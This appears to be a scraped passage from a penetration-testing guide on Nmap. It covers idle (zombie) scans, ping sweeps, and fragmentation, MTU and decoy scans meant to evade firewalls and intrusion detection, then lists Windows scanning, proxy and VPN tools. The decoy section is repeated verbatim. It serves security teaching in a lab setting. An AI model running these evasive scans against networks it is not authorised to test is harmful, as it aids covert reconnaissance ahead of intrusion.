<h2 class="wp-block-heading" id="5-idle-scan">5. IDLE Scan<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#5-idle-scan"></a></h2>


<p>IDLE scan is an advanced scan method that performs a truly blind TCP port scan of the target (meaning no packets are sent to the target from your real IP address). Instead, a unique side-channel attack exploits predictable IP fragmentation ID sequence generation on the zombie host to glean information about the open ports on the target.</p>


<p>In this example the zombie will be Windows Server 2012 machine and the target Windows 10 machine using port number 80 (or any port which you want to test).</p>


<p><code>nmap -Pn -p 80 -sI &lt;IP address of the zombie&gt; &lt;Target IP address&gt;</code></p>


<pre class="wp-block-code"><code>Idle scan using zombie 10.0.2.37 (10.0.2.37:80); Class: Incremental
Nmap scan report for 10.0.2.23
Host is up (0.0069s latency).

PORT   STATE SERVICE
80/tcp open  http
MAC Address: 22:44:11:55:66:77 Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.08 seconds
</code></pre>


<p>IDLE scan can be tricky for the first-timers, I recommend try and test out in your own way. I recommend this&nbsp;<a href="https://gbhackers.com/idle-zombie-scan-nmap/">link</a>&nbsp;for any missing information about it. ***</p>


<h2 class="wp-block-heading" id="ping-sweep">Ping Sweep<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#ping-sweep"></a></h2>


<p>Ping sweep is a method that can establish a range of IP addresses which map to live hosts.</p>


<p>Now instead of checking for individual systems, we will check for all the systems alive in the network by performing a ping sweep.</p>


<p><code>-sP</code>: Perform a Ping Only Scan</p>


<p><code>nmap -sP 10.0.2.*</code></p>


<pre class="wp-block-code"><code>Nmap scan report for 10.0.2.1
Host is up (0.0011s latency).
MAC Address: 22:44:99:33:11:55 QEMU virtual NIC)
Nmap scan report for 10.0.2.2
Host is up (0.00084s latency).
MAC Address: 22:44:99:33:11:55 (QEMU virtual NIC)
Nmap scan report for 10.0.2.3
Host is up (0.00097s latency).
MAC Address: 11:22:33:44:55:66 (Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.22
Host is up (0.00075s latency).
MAC Address: 11:22:33:44:55:66 (Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.23
Host is up (0.00066s latency).
MAC Address: 11:22:33:44:55:66 (Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.37
Host is up (0.00051s latency).
MAC Address: 11:22:33:44:55:66 (Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.15
Host is up.
Nmap done: 256 IP addresses (7 hosts up) scanned in 2.29 seconds
</code></pre>


<p>Nmap scans the subnet and shows a list of alive systems as shown above. The result might vary in your lab environment.</p>


<h1 class="wp-block-heading" id="avoiding-scanning-detection-using-multiple-decoy-ip-addresses">Avoiding Scanning Detection using Multiple Decoy IP Addresses</h1>


<p>The Nmap command&nbsp;<code>nmap -D RND:10</code>&nbsp;is the decoy option, that lets you scan using multiple decoy IP addresses.</p>


<p>Firewalls and IDS detect normal scanning attempts on the target network. However, you can use the IP address decoy technique to avoid detection.</p>


<p><strong>Before starting this lab, make sure that you have your Windows Firewall on the target turned on.</strong></p>


<h2 class="wp-block-heading" id="ip-fragmentation">IP Fragmentation<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#ip-fragmentation"></a></h2>


<p>Open a new Terminal window on Kali and enter the target IP address (Windows).</p>


<p><code>nmap -f &lt;Target IP Address&gt;</code></p>


<p><code>-f</code>: Used to scan tiny fragment packets.</p>


<pre class="wp-block-code"><code>Nmap scan report for 10.0.2.23
Host is up (0.00074s latency).
Not shown: 979 filtered ports
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
443/tcp   open  https
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
MAC Address: 11:22:33:44:55:66 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 13.72 seconds
</code></pre>


<p>When the Windows Firewall service is turned on, you can only see the ports opened as shown in the output above.</p>


<h2 class="wp-block-heading" id="perform-maximum-transmission-unit">Perform Maximum Transmission Unit<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#perform-maximum-transmission-unit"></a></h2>


<p>This command is used to transmit smaller packets instead of sending one complete packet at a time.</p>


<p>This scan is very similar to the previous one but with&nbsp;<strong>Maximum Transmission Unit</strong>&nbsp;(<code>-mtu</code>) and&nbsp;<code>8</code>&nbsp;bytes of packets.</p>


<p><code>nmap -mtu 8 &lt;Target IP Address&gt;</code></p>


<p>If everything works, the results should be identical to the previous one.</p>


<h2 class="wp-block-heading" id="decoying-ip-address">Decoying IP address<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#decoying-ip-address"></a></h2>


<p>This command is used to scan multiple decoy IP addresses. Nmap will send multiple packets with different IP addresses, along with your attacker’s IP address.</p>


<p><code>nmap -D RND:10 &lt;Target IP Address&gt;</code></p>


<p>Again, the output is the same as previous outputs but on the target view is very different.</p>


<p>Check the Logs on your Windows Server Firewall and analyze the last scan performed. You also can analyze this information with Wireshark turned on.</p>


<p>Both shows multiple IP addresses along with your real attacker IP address.</p>


<p>&nbsp;<em>Windows Firewall Log: Decoyed IP Address</em></p>


<p>&nbsp;<em>Wireshark: Decoyed IP Address</em></p>


<hr class="wp-block-separator has-alpha-channel-opacity"/>


<p><strong>In conclusion</strong>: Nmap is a very powerful tool for network scanning / network security assessments. Basically the must-have tool on your belt when we talk about Network Security, Ethical Hacking or Pentesting.</p>


<h1 class="wp-block-heading" id="avoiding-scanning-detection-using-multiple-decoy-ip-addresses">Avoiding Scanning Detection using Multiple Decoy IP Addresses</h1>


<p>The Nmap command&nbsp;<code>nmap -D RND:10</code>&nbsp;is the decoy option, that lets you scan using multiple decoy IP addresses.</p>


<p>Firewalls and IDS detect normal scanning attempts on the target network. However, you can use the IP address decoy technique to avoid detection.</p>


<p><strong>Before starting this lab, make sure that you have your Windows Firewall on the target turned on.</strong></p>


<h2 class="wp-block-heading" id="ip-fragmentation">IP Fragmentation<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/5-NmapDecoyIP.html#ip-fragmentation"></a></h2>


<p>Open a new Terminal window on Kali and enter the target IP address (Windows).</p>


<p><code>nmap -f &lt;Target IP Address&gt;</code></p>


<p><code>-f</code>: Used to scan tiny fragment packets.</p>


<pre class="wp-block-code"><code>Nmap scan report for 10.0.2.23
Host is up (0.00074s latency).
Not shown: 979 filtered ports
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
443/tcp   open  https
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
MAC Address: 11:22:33:44:55:66 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 13.72 seconds
</code></pre>


<p>When the Windows Firewall service is turned on, you can only see the ports opened as shown in the output above.</p>


<h2 class="wp-block-heading" id="perform-maximum-transmission-unit">Perform Maximum Transmission Unit<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/5-NmapDecoyIP.html#perform-maximum-transmission-unit"></a></h2>


<p>This command is used to transmit smaller packets instead of sending one complete packet at a time.</p>


<p>This scan is very similar to the previous one but with&nbsp;<strong>Maximum Transmission Unit</strong>&nbsp;(<code>-mtu</code>) and&nbsp;<code>8</code>&nbsp;bytes of packets.</p>


<p><code>nmap -mtu 8 &lt;Target IP Address&gt;</code></p>


<p>If everything works, the results should be identical to the previous one.</p>


<h2 class="wp-block-heading" id="decoying-ip-address">Decoying IP address<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/5-NmapDecoyIP.html#decoying-ip-address"></a></h2>


<p>This command is used to scan multiple decoy IP addresses. Nmap will send multiple packets with different IP addresses, along with your attacker’s IP address.</p>


<p><code>nmap -D RND:10 &lt;Target IP Address&gt;</code></p>


<p>Again, the output is the same as previous outputs but on the target view is very different.</p>


<p>Check the Logs on your Windows Server Firewall and analyze the last scan performed. You also can analyze this information with Wireshark turned on.</p>


<p>Both shows multiple IP addresses along with your real attacker IP address.</p>


<p>&nbsp;<em>Windows Firewall Log: Decoyed IP Address</em></p>


<p>&nbsp;<em>Wireshark: Decoyed IP Address</em></p>


<h1 class="wp-block-heading" id="windows-scanning-tools">Windows Scanning Tools</h1>


<h2 class="wp-block-heading" id="colasoft-packet-builder">Colasoft Packet Builder<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/6-WindowsTools.html#colasoft-packet-builder"></a></h2>


<p>Colasoft Packet Builder enables creating custom network packets; users can use this tool to check their network protection against attacks and intruders. Colasoft Packet Builder includes a very powerful editing feature. Besides common HEX editing raw data, it features a Decoding Editor allowing users to edit specific protocol field values much easier.</p>


<p>Users are also able to edit decoding information in two editors &#8211; Decode Editor and Hex Editor. Users can select one from the provided templates Ethernet Packet, ARP Packet, IP Packet, TCP Packet and UDP Packet, and change the parameters in the decoder editor, hexadecimal editor or ASCII editor to create packets. Any changes will be immediately displayed in the other two windows. In addition to building packets,Colasoft Packet Builder also supports saving packets to packet files and sending packets to network.<br>[Free/Paid]<br>https://www.colasoft.com/packet_builder/</p>


<h2 class="wp-block-heading" id="netscantools-pro">NetScanTools Pro<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/6-WindowsTools.html#netscantools-pro"></a></h2>


<p>NetScanTools Pro is an integrated collection of internet information gathering and network troubleshooting utilities for Network Professionals. Research IPv4 addresses, IPv6 addresses, hostnames, domain names, email addresses and URLs automatically** or with manual tools. It is designed for the Windows operating system.<br>[Trial/Paid]<br>https://www.netscantools.com/</p>


<h2 class="wp-block-heading" id="ip-tools">IP-Tools<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/6-WindowsTools.html#ip-tools"></a></h2>


<p>IP-Tools consist of multiple individual tools, ranging from basic bandwidth monitoring to spoofing and decoding. You can scan for live hosts, ping scan, simple port scan, whois and so on.<br>[Trial/Paid]<br>https://ip-tools.en.softonic.com/</p>


<h2 class="wp-block-heading" id="angry-ip-scanner">Angry IP Scanner<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/6-WindowsTools.html#angry-ip-scanner"></a></h2>


<p>Angry IP Scanner is an open-source and cross-platform network scanner designed to scan IP addresses and ports.<br>[Free software]<br>https://angryip.org/</p>


<h1 class="wp-block-heading" id="windows-proxy-tools">Windows Proxy Tools</h1>


<h2 class="wp-block-heading" id="proxy-workbench">Proxy Workbench<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/6-WindowsTools.html#proxy-workbench"></a></h2>


<p>Proxy Workbench is a unique proxy server &#8211; ideal for developers, security experts, and trainers &#8211; that displays data in real time.</p>


<p>Daisy Chaining of Proxies can make traffic analysis far more complex and most difficult for an eavesdropper to be able to monitor different parts of the Internet.<br>[Free]<br>https://en.freedownloadmanager.org/Windows-PC/Proxy-Workbench.html</p>


<h2 class="wp-block-heading" id="proxy-switcher">Proxy Switcher<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/6-WindowsTools.html#proxy-switcher"></a></h2>


<p>Proxy Switcher allows you to automatically execute actions according to the detected network connection. Proxy Switcher is for all the anonymous browsing needs. It can be used to avoid all sorts of limitations imposed by various sites. Be that a download site that limits amount of downloads. Or video site works only in a particular country &#8211; more often than not it gets defeated by the anonymous browsing features Proxy Switcher provides.<br>[Trial/Paid]<br>https://www.proxyswitcher.com/</p>


<h1 class="wp-block-heading" id="vpns">VPN’s</h1>


<h2 class="wp-block-heading" id="cyberghost-vpn">CyberGhost VPN<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/6-WindowsTools.html#cyberghost-vpn"></a></h2>


<p>VPN software that allows you to surf anonymously, access blocked or censored content.<br>[Paid]<br>https://www.cyberghostvpn.com/</p>


<h2 class="wp-block-heading" id="proton-vpn">Proton VPN<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/6-WindowsTools.html#proton-vpn"></a></h2>


<p>VPN software that allows you to surf anonymously, access blocked or censored content.<br>[Paid]<br>https://protonvpn.com/</p>


<h1 class="wp-block-heading" id="network-discovery-tool">Network Discovery Tool</h1>


<h2 class="wp-block-heading" id="network-topology-mapper">Network Topology Mapper<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/6-WindowsTools.html#network-topology-mapper"></a></h2>


<p>SolarWinds Network Topology Mapper automatically discovers your network and produces a comprehensive network diagram that can be easily exported to MS Office. Network Topology Mapper automatically detects new devices and changes to network topology. it simplifies inventory management for hardware and software assets, addresses reporting needs for PCI compliance and other regulatory requirements.<br>[Trial/Paid]<br>https://www.solarwinds.com/network-topology-mapper</p>
]]></content:encoded>
					
		
		
			</item>
	</channel>
</rss>
